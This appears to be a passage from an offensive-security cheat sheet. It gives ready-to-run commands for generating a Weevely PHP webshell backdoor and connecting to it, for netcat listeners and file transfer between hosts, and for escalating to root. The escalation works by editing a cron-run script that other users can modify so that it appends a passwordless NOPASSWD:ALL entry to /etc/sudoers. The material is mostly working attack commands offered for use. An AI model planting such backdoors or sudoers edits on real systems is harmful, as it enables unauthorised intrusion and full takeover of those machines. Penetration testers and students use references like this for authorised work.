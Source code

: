 **Generate a backdoor agent**  
`weevely generate <password> <path>`  
e.g.  
`weevely generate password /home/kali/Desktop/webshell.php`

**Connect to the remote backdoor agent**  
`weevely <webshell_address> <password>`  
e.g.  
`weevely http://192.168.0.100/upload/webshell.php password`


#### Netcat
Utility for reading and writing data across a network. Useful as a listening tool or for transferring files.

**Listen on a specific port**  
`sudo nc -lp <port>`

**Listen on a specific port (verbose mode)**  
`sudo nc -lvp <port>`

**Enumerate active listening ports**  
`sudo netstat -tunlp`

**Transferring a file**  
Listen on one host  
`nc -vn -lp <port> > <file_to_be_saved>`  
Send the file from the other host  
`nc -vn <target_ip> <port> < <file_to_be_sent>`


#### Cron Exploitation
In Linux systems, `cron` is used to automate the execute of particular tasks (running scripts, backing up files, etc). The significance of cron for post-exploitation is that if a scheduled job contains a directory with a modifiable script, it can be overwritten to provide escalation of privileges.

**Enumerate scheduled cron jobs**  
`cat /etc/crontab`

**Cron directories**  
```
/etc/cron.d
/etc/cron.hourly
/etc/cron.daily
/etc/cron.weekly
/etc/cron.monthly
```

**Enumerating all files in the cron directories**  
`ls -lah /etc/cron*`

**Escalating privileges through a modifiable script**  
Because `cron` jobs are run with root privileges, if there are any scripts being run by crontab that are modifiable by users other than root, they can be exploited to obtain root access.  
```
# open the script
nano <script>

# add the below command to the script
# allowing the current user to go root without a password
# by appending them to the sudoers file in /etc/
echo "<current_user> ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers

# run the script
run-parts /etc/cron.<directory>
# e.g. if the script is in or referenced by cron.daily
run-parts /etc/cron.daily

# go root
```